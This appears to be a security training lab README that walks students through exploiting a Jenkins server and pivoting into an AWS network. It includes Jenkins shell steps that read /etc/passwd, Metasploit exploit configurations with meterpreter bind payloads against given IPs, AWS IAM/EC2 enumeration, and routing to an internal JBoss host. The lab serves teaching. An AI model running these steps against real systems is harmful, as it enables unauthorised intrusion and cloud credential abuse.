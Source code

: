 # Lab 2

**Table of Contents**

- [Enumeration](##enumeration)
- [Exploiting Jenkins Manually](##exploiting-jenkins-manually)
- [Introducing Metasploit](##introducing-metasploit)
- [Exploiting Jenkins with Metasploit](##exploiting-jenkins-with-metasploit)
- [Pivot/Penetrate](##pivot/penetrate)

# Title

In this lab, we will be exploiting a popular Build Platform and use it to pivot deeper into the network.

*Resources:*

- [https://nmap.org/book/man.html](https://nmap.org/book/man.html)
- [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- [http://docs.aws.amazon.com/cli/latest/](http://docs.aws.amazon.com/cli/latest/)

---

## Enumeration

Find a vulnerable host.

1. Install Nmap.

  ```
$ sudo yum -y install nmap
  ```

2. Port scan a vulnerable host.

  ```
$ nmap -PN -p8080 -sV 52.41.95.90
  ```

## Exploiting Jenkins Manually

1. Load `http://52.39.125.179:8080` on your browser.

2. Select `New Item`, enter your student ID under `Item name` and select `Freestyle project`. Click `OK`.

3. Under `Build`, click `Add a build step`, select `Execute shell`. In the `Command` text box enter `cat /etc/passwd` and click `Save`.

4. Select `Build Now`, then click the last `Build History` job and click `Console Output`. What do you see? Would you put this host on the internet as is?

5. Go back to your project and click `Configure` run other commands such as `whoami`, `pwd` and `ps` to familiarize yourself with this host. What flavor of linux is this? What packages are installed?


## Introducing Metasploit

1. Install Metasploit.

  Download and extract the Metasploit package from the DSO bucket: `dso-public-bucket`

  ```
$ curl -O https://s3-us-west-2.amazonaws.com/dso-public-bucket/metasploit-framework-master.zip
$ unzip metasploit-framework-master.zip
  ```

  Alternatively clone the Metasploit Git project directly.

  ```
$ git clone https://github.com/rapid7/metasploit-framework.git
  ```

2. Install dependencies and run `msfconsole`.

  ```
$ cd metasploit-framework-master
$ sudo yum -y install libpcap-devel postgresql-devel libsqlite3-dev sqlite-devel
$ bundle install
$ ./msfconsole

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.12.10-dev                         ]
+ -- --=[ 1556 exploits - 902 auxiliary - 268 post        ]
+ -- --=[ 438 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >
  ```

## Exploiting Jenkins with Metasploit

1. Search for the Jenkins-CI Script-Console Java Execution exploit. You can do this using the `search` keyword.

2. Configure the exploit for use.

  In the example below we are using TCP port 10001 to create a listener (`LPORT`). Please contact the instructor to see which port you should be using.

  ```
> use exploit/multi/http/jenkins_script_console
> show options
> set RHOST 52.39.125.179
> set RPORT 8080
> set TARGETURI /
> set target 1
> set payload linux/x86/meterpreter/bind_tcp
> set LPORT 10001
  ```

2. Exploit the target and run the shell.

  ```
> exploit
> shell
  ```

3. Run the AWS CLI to determine if this host has IAM permissions.

  ```
$ aws iam list-users --region us-west-2
  ```

4. Since this host does not have IAM privileges, let's find a host that does.

  Run the AWS CLI to determine the IP address of another host that may have an overly permissive instance profile/role.

  ```
$ aws ec2 describe-instances --region us-west-2
  ```

  Is that shot of JSON to the eye? Try filtering the results, like this:

  ```
aws ec2 describe-instances --region us-west-2 --filters Name=iam-instance-profile.arn,Values=arn:aws:iam::717986480831:instance-profile/dso-overly-permissive
  ```

  Make note of this host's IP address. This is target 2.

  Throw the shell into the background by pressing `ctrl-z`, followed by `y` and `ENTER`. Also throw the Meterpreter shell into the background by again pressing `ctrl-z`, followed by `y` and `ENTER`. Then list your sessions.

  ```
> sessions
  ```

  Make note of the session ID, e.g., `1`.

## Pivot/Penetrate

1. Add a route to pivot to a host that is deeper inside the network (target 2).

  E.g.,

  ```
> route add 10.0.6.0 255.255.255.0 1
  ```

  2. Scan the host you discovered for vulnerabilities.

  ```
> use auxiliary/scanner/http/jboss_vulnscan
> show options
> set RHOSTS 10.0.6.165
> set RPORT 8080
> show options
> run
  ```

2. Search for the JBoss DeploymentFileRepository WAR Deployment exploit. E.g., `search JMXInvokerServlet`.

3. Configure the exploit.

```
> use exploit/multi/http/jboss_invoke_deploy
> set RHOST 10.0.6.165
> set target 1
> set payload java/meterpreter/bind_tcp
> set LPORT 10001
> exploit
```

4. Run the AWS CLI to determine if this host has IAM permissions.

```
> shell
python -c 'import pty; pty.spawn("/bin/bash")'
$ export http_proxy=http://proxy:3128
$ export https_proxy=http://proxy:3128
$ aws iam list-users --region us-west-2
```

  What does this mean?
